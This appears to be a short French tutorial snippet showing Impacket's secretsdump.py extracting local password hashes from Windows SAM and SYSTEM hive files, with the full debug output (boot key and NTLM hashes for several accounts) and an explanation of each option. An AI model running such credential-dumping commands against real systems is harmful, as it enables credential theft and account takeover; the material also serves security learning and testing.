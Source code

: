 # Sam Windows

    $ secretsdump.py -debug -sam sam_windows -system system_windows LOCAL
    Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

    [+] Retrieving class info for JD
    [+] Unknown type 0xe
    [+] Retrieving class info for Skew1
    [+] Unknown type 0xb
    [+] Retrieving class info for GBG
    [+] Unknown type 0x8
    [+] Retrieving class info for Data
    [+] Unknown type 0x6
    [*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    [+] Calculating HashedBootKey from SAM
    [+] NewStyle hashes is: False
    Administrator:500:NONE:NONE:::
    [+] NewStyle hashes is: False
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    [+] NewStyle hashes is: False
    Seyptoo:1000:aad3b435b51404eeaad3b435b51404ee:ee7e0b247f06ef203cf92ad55eeb2d13:::
    [*] Cleaning up... 

L'option -debug permet d'afficher des informations détaillés, l'option -sam permet de spécifier le fichier SAM, l'option -system permet de mettre le fichier système pour ensuite dump les informations d'identification et enfin l'option LOCAL permet d'analyser le fichier c'est obligatoire.
